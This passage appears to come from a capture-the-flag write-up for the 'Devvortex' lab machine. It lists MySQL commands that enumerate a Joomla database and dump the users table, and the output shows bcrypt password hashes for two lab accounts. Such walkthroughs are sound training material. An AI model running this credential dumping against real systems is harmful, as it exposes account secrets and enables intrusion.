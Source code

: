 1. `show databases;` -> displays all the databases present.
    ```SQL
    mysql> show databases;

    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | joomla             |
    | performance_schema |
    +--------------------+
    3 rows in set (0.01 sec)
    ```


2. `use joomla;` -> the joomla database might have the credentials, so lets shift to joomla database.
    ```SQL
    mysql> use joomla;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    ```


3. `show tables` -> lists all the table present in joomla database.
    - table named 'sd4fg_users' looks intriguing.

4. `select * from sd4fg_users` -> displays the contents of sd4fg_users table.
    ```SQL
    mysql> select * from sd4fg_users;
    +-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
    | id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
    +-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
    | 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-04-27 07:09:54 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
    | 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
    +-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
    ```
